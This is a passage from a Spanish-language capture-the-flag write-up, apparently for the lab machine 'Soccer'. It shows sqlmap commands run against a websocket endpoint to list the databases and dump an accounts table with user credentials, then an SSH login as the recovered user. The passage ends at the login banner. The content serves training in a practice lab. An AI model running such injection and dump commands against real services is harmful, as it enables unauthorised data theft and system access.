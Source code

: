 ![](/assets/images/soccer/respuesta.png){: .align-center}

De esta forma, parece susceptible a SQL injection, por lo que nos apoyaremos de la herramienta sqlmap (no muestro el verbose de la misma ya que no aporta nada y es largo):


### SQL injection

~~~bash
❯ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"44"}' --dbs

available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
~~~

~~~bash
❯ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"44"}' -D soccer_db --tables

Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
~~~

~~~bash
❯ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id":"44"}' -D soccer_db -T accounts --dump

Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | P******************2 | player   |
+------+-------------------+----------------------+----------+
~~~

Ya tenemos los datos de un usuario, todo apunta a que ahora podremos conectarnos por SSH y leer la flag de user.

~~~bash
❯ ssh player@10.10.11.194
player@10.10.11.194's password: 

Permission denied, please try again.
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jun 11 16:44:33 UTC 2023

  System load:           0.07
  Usage of /:            70.1% of 3.84GB
  Memory usage:          19%
~~~